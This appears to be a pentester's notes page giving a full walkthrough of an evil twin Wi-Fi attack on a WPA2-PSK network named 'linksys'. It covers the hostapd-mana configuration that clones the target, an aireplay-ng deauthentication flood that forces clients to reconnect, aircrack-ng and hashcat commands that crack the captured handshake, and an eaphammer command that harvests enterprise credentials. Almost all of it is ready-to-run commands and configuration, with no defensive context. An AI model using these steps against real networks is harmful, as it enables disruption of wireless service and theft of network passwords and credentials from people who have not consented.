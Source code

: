 ## Rogue Access Point

```text
sudo apt install hostapd-mana
sudo apt-get install libssl-dev
```

### Note - A network card with interface modes "AP mode" is requred or the config will fail
```text
iw list | grep "Supported interface modes" -A 8

        Supported interface modes:
                 * IBSS
                 * managed
                 * AP
                 * AP/VLAN
                 * monitor
                 * mesh point
```

```text
sudo airodump-ng wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:


It has an ESSID of linksys

It has a BSSID of 11:22:33:44:55:66

It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))

It uses a auth of PSK

It runs on channel 1


#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```
We need to specify the band to 2.4 GHz by setting the hw_mode parameter to the letter "g". If the network was running on 5 GHz, we would set hw_mode to "a".

We will set the wpa parameter to the integer "3" to enable both WPA and WPA2 (setting this parameter to "1" enables only WPA and setting the value to "2" enables only WPA2).


#### Start Access Point
```text

sudo systemctl disable dnsmasq && sudo systemctl disable hostapd
sudo rfkill unblock wifi
sudo rfkill unblock all
sudo airmon-ng check kill
sudo ip link set dev wlan0 up
sudo ifconfig wlan0 up
sudo hostapd-mana linksys-mana.conf
```

Wait for a capture of a WPA/2 handshake in output.

##### De-Auth if needed
```text
sudo aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon
```

#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```

#### eaphammer - alternative
```text
sudo eaphammer -i wlan0mon --channel 4 --auth wpa-eap --wpa-version 2 --essid linksys --creds
```


https://wiki.gentoo.org/wiki/Hostapd

https://tbhaxor.com/evil-twin-wifi-network-using-hostapd-mana/




